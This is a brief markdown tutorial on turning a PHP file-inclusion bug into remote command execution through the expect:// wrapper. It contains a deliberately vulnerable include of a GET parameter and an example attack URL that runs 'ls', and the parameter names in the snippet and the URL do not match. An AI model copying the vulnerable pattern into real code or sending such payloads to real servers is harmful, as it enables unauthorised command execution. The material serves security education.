 ###PHP expect:// Remote Command Execution
####The expect wrapper is not enabled by default

If we were to have the example code below:

```
<?php
$code = $_GET['hax'];
include($code);
?>
```

It is easy to see the file inclusion bug.

However, the above code could also lead to remote command execution if the expect:// PHP wrapper is enabled.

For example, let's assume that the above code is in a file named lfi.php. e.g. `http://example.com/lfi.php?file=`

If that were the case, and the expect wrapper was enabled, RCE would have been possible via:

`http://example.com/lfi.php?file=expect://ls`

Further Reading:

[I expect:// a shell!](http://insecurety.net/?p=724)
[expect:// to interactive shell PoC](http://insecurety-research.googlecode.com/files/expectsh-0.3.py)

